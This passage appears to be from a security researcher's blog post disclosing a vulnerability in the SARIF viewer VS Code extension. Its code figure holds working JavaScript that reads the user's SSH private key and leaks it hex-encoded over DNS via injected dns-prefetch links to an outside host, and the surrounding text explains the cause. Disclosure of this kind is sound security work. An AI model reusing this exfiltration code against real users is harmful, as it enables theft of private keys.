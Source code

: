 ```javascript
    };
};

// 2) Fetch a user's private key at $HOME/.ssh/id_rsa
fetch('https://file+.vscode-resource.vscode-cdn.net' + HOME + '.shh/id_rsa')
    .then((response) => response.text())
    .then((data) => {
        console.log(data);

	 // 3) Encode the data in hex and leak the file over DNS
        encoded_data = data.split('').map(c =>
            c.charCodeAt(0).toString(16).padStart(2, '0')
        ).join('');

        server_domain = 'our.server.com';
        for (var i = 0; i < encoded_data.length; i+=63+63+63) {
            var n = i / (63+63+63);
            subdomain_1 = encoded_data.substring(i, i+63);
            subdomain_2 = encoded_data.substring(i+63, i+63+63);
            subdomain_3 = encoded_data.substring(i+63+63, i+63+63+63);

            full_domain = server_domain;
            if (subdomain_3) {
                full_domain = subdomain_3 + '.' + full_domain;
            };
            if (subdomain_2) {
                full_domain = subdomain_2 + '.' + full_domain;
            };
            if (subdomain_1) {
                full_domain = subdomain_1 + '.' + full_domain;
            };
            full_domain = n.toString() + '.' + full_domain;
            full_domain = '//' + full_domain;

	     // Add the link to the DOM
            newLink = document.createElement('link');
            newLink.setAttribute('rel', 'dns-prefetch');
            newLink.setAttribute('href', full_domain);
            document.body.appendChild(newLink);
        };
    });
```
<p class="figure-caption">Exploit that steals a user’s private key when they open a compromised SARIF file in the SARIF viewer extension</p>

This was all possible because the extension used the `ReactMarkdown` component with the `escapeHtml = {false}` option, allowing an attacker with partial control of a SARIF file to inject JavaScript in the Webview. Thanks to a very permissive `localResourceRoots`, the attacker could  take any file from the user’s filesystem. Would this vulnerability still be exploitable with a stricter `localResourceRoots`? Wait for the second blog post! ;)
